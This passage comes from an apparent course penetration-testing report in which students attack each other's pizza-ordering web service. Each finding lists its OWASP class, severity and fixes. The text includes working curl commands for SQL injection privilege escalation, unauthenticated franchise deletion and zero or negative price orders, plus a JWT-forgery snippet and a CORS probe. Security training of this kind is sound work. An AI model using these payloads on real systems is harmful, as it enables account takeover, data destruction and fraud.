

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Do not expose stack traces in production. Replace detailed error responses with generic error messages and log the full error internally on the server.</td></tr>
</table>

#### Attack 4 — CORS Misconfiguration

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A05 Security Misconfiguration</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">3</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Sent a request to <code>GET /api/franchise</code> with a malicious <code>Origin</code> header (<code>https://evil-attacker.com</code>). The server responded by reflecting the origin in the <code>Access-Control-Allow-Origin</code> header and allowed credentials. The backend does not properly restrict trusted origins and allows any external site to make authenticated requests.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">



</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Restrict CORS to trusted domains only. Do not dynamically reflect the <code>Origin</code> header. Disable <code>Access-Control-Allow-Credentials</code> unless absolutely necessary.</td></tr>
</table>

#### Attack 5 — Brute Force Login (No Rate Limiting)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A07 Identification and Authentication Failures</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">2</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Used Burp Intruder to perform a brute force attack on the <code>PUT /api/auth</code> endpoint by testing multiple password values. The server allowed repeated login attempts without rate limiting or account lockout, enabling password guessing. The authentication mechanism does not prevent automated attacks, allowing an attacker to eventually gain unauthorized access to accounts.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">



</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Implement rate limiting and account lockout mechanisms to mitigate brute force attacks. Additionally, monitor for suspicious login patterns to identify and respond to automated exploitation attempts.</td></tr>
</table>

#### Attack 6 — Invalid Menu ID Error Handling

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 11, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A05 Security Misconfiguration</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Modified the <code>menuId</code> field in a <code>POST /api/order</code> request to an invalid value (<code>9999</code>). The server responded with a <code>500 Internal Server Error</code> and exposed internal stack trace details. This indicates improper input validation and error handling, revealing backend implementation details that could be leveraged by an attacker.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">



</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Validate all input before processing and return user-friendly error messages. Ensure that stack trace exposure is disabled in production environments to prevent sensitive information disclosure.</td></tr>
</table>

---

## Peer Attack

### Peer 1 (Jay Ellis) Attack on Peer 2 (Marco Sotomarino)

#### Attack 1 — SQL Injection via User Update (Privilege Escalation)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A03 Injection</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The <code>PUT /api/user/:userId</code> endpoint uses string concatenation to build SQL UPDATE statements. By injecting <code>admin'-- </code> in the <code>name</code> field, the WHERE clause is commented out, causing the UPDATE to modify user ID 1 instead of the authenticated user (ID 17). The server returned a JWT for user ID 1, proving privilege escalation from a regular diner account to another user's identity. Error-based injection also revealed the full SQL query structure, table names, column names, and internal file paths through stack traces.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Payload — SQL comment injection:

```bash
curl -s -X PUT \
  "https://pizza-service.marcosotomarino.com\
/api/user/17" \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $TOKEN" \
  -d '{"email":"test@test.com","name":"admin'\''-- "}'
```

Response (JWT for user ID 1 — privilege escalation):

```json
{
  "user": {
    "id": 1,
    "name": "admin",
    "email": "test@test.com",
    "roles": [{ "role": "diner" }]
  },
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..."
}
```

Error-based injection reveals SQL structure:

```json
{
  "message": "You have an error in your SQL syntax...
    near 'UNION SELECT id,name,email,password
    FROM user WHERE '1'='1' WHERE id=17'
    at line 1",
  "stack": "Error: ...at DB.updateUser
    (/app/src/database/database.js:143:20)..."
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Use parameterized queries (<code>?</code> placeholders) in <code>database.js:updateUser()</code>. Never concatenate user input into SQL strings. Disable stack trace exposure in production.</td></tr>
</table>

#### Attack 2 — Unauthenticated Franchise Deletion

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A01 Broken Access Control</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">4</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The <code>DELETE /api/franchise/:franchiseId</code> endpoint has no authentication middleware. Sent a DELETE request to franchise ID 3 ("Provo") with absolutely no Authorization header. The server returned 200 OK and deleted the franchise. Any anonymous user on the internet can destroy business data. Notably, <code>POST /api/franchise</code> DOES require auth + admin role (403), so only the DELETE is unprotected.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Franchises before attack:

```json
{
  "franchises": [
    { "id": 1, "name": "My Pizza Franchise", "stores": [{ "id": 1, "name": "Main Store" }] },
    { "id": 3, "name": "Provo", "stores": [] },
    { "id": 2, "name": "SLC", "stores": [] }
  ]
}
```

Attack — DELETE with NO authentication:

```bash
curl -s -X DELETE \
  https://pizza-service.marcosotomarino.com\
/api/franchise/3 \
  -w "\nHTTP_CODE: %{http_code}"
```

Response:

```
{"message":"franchise deleted"}
HTTP_CODE: 200
```

Franchises after attack:

```json
{
  "franchises": [
    { "id": 1, "name": "My Pizza Franchise", "stores": [{ "id": 1, "name": "Main Store" }] },
    { "id": 2, "name": "SLC", "stores": [] }
  ]
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Add <code>authRouter.authenticateToken</code> middleware and admin role check to the DELETE <code>/api/franchise/:franchiseId</code> route in <code>franchiseRouter.js</code>.</td></tr>
</table>

#### Attack 3 — Order Pizza for $0 and Negative Prices

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A04 Insecure Design</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">3</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The server accepts order prices directly from the client without validating against the menu database. Submitted an order for a Veggie pizza at price 0.0001 (real price: 0.0038) and the order was accepted. Also tested with a negative price of -100, which was also accepted. In a real system, negative prices could credit money to the attacker.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Attack 3a — Near-zero price:

```bash
curl -s -X POST \
  https://pizza-service.marcosotomarino.com\
/api/order \
  -H 'Content-Type: application/json' \
  -H "Authorization: Bearer $TOKEN" \
  -d '{
    "franchiseId":1, "storeId":1,
    "items":[{"menuId":2,
      "description":"Veggie","price":0.0001}]
  }'
```

Response (order accepted):

```json
{
  "order": {
    "franchiseId": 1,
    "storeId": 1,
    "items": [
      {
        "menuId": 2,
        "description": "Veggie",
        "price": 0.0001
      }
    ],
    "id": 438
  },
  "jwt": "eyJpYXQiOjE3NzYwNjk3NDAuLi4..."
}
```

Attack 3b — Negative price (-100) also accepted:

```json
{
  "order": {
    "franchiseId": 1,
    "storeId": 1,
    "items": [
      {
        "menuId": 2,
        "description": "Veggie",
        "price": -100
      }
    ],
    "id": 439
  }
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Server-side price validation: look up the actual price from the <code>menu</code> table using the <code>menuId</code> and ignore the client-supplied <code>price</code> field. Reject negative and zero prices.</td></tr>
</table>

#### Attack 4 — Information Disclosure and Security Misconfiguration

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A05 Security Misconfiguration</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">2</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">Multiple misconfiguration issues leak internal architecture details. The <code>/api/docs</code> endpoint publicly exposes the AWS RDS database hostname. All error responses include full Node.js stack traces revealing file paths, module versions, and application structure. The server exposes <code>X-Powered-By: Express</code> and is missing all standard security headers (CSP, HSTS, X-Frame-Options). CORS is configured to reflect any origin with <code>credentials: true</code>, allowing cross-origin credential theft from any website.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Database hostname leaked in /api/docs:

```
"db":"jwt-pizza-db.csdC8skiue7b
  .us-east-1.rds.amazonaws.com"
```

Stack trace leaked on malformed JSON:

```json
{
  "message": "Unexpected token 'n',
    \"not json\" is not valid JSON",
  "stack": "SyntaxError: ...
    at createStrictSyntaxError
    (/app/node_modules/body-parser/
    ...json.js:169:10)..."
}
```

Stack trace leaked on auth failure:

```json
{
  "stack": "Error: unknown user\n
    at DB.getUser
    (/app/src/database/database.js:107:15)..."
}
```

Missing security headers:

```
HTTP/2 200
x-powered-by: Express
access-control-allow-origin: *
access-control-allow-credentials: true
```

No `Content-Security-Policy`, `Strict-Transport-Security`, `X-Frame-Options`, or `X-Content-Type-Options`.

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1) Remove DB hostname from <code>/api/docs</code>. 2) Set <code>NODE_ENV=production</code> and strip <code>stack</code> from error responses. 3) Remove <code>X-Powered-By</code> header. 4) Add CSP, HSTS, X-Frame-Options headers. 5) Configure CORS to allow only the production frontend origin.</td></tr>
</table>

#### Attack 5 — JWT Forgery Attempt (Default Secret)

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A02 Cryptographic Failures</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Severity</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">0</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Description</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">The source code <code>.env</code> file contains <code>JWT_SECRET=dev-secret-key-change-in-production</code>. Attempted to forge an admin JWT using this default secret and also tried 10 other common secrets (secret, password, changeme, pizza, jwt-secret, etc.). All forged tokens were rejected by the production server, confirming Marco changed the JWT secret for production. However, JWT tokens still have no <code>exp</code> claim — tokens never expire, meaning a stolen token is valid forever.</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Images</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">

Forged admin token with default secret:

```bash
FORGED=$(node -e "
  const jwt = require('jsonwebtoken');
  const token = jwt.sign(
    { id:17, name:'pentest2',
      email:'pentest2@test.com',
      roles:[{role:'admin'}] },
    'dev-secret-key-change-in-production'
  );
  console.log(token);
")
```

Test: `{ "message": "unauthorized" }`

Brute force of 10 common secrets — all rejected:

```
Secret 'secret':      {"message":"unauthorized"}
Secret 'jwt-secret':  {"message":"unauthorized"}
Secret 'pizza':       {"message":"unauthorized"}
Secret 'password':    {"message":"unauthorized"}
Secret 'changeme':    {"message":"unauthorized"}
...all 10 rejected
```

No `exp` claim in tokens — decoded JWT:

```json
{
  "id": 17,
  "name": "pentest2",
  "email": "pentest2@test.com",
  "roles": [{ "role": "diner" }],
  "iat": 1776069642
}
```

</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Corrections</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">1) Remove default secret from <code>.env</code>. 2) Add <code>.env</code> to <code>.gitignore</code>. 3) Add JWT expiration (<code>expiresIn: '1h'</code>) to <code>jwt.sign()</code> calls.</td></tr>
</table>

#### Attack 6 — CORS Cross-Origin Credential Theft

<table style="width:100%; border-collapse:collapse; table-layout:fixed;">
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Date</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">April 13, 2026</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Target</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">pizza-service.marcosotomarino.com</td></tr>
<tr><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; white-space:nowrap; width:120px;"><strong>Classification</strong></td><td style="padding:6px 12px; border:1px solid #ddd; vertical-align:top; word-wrap:break-word; overflow-wrap:break-word;">A05 Security Misconfiguration</td></tr>
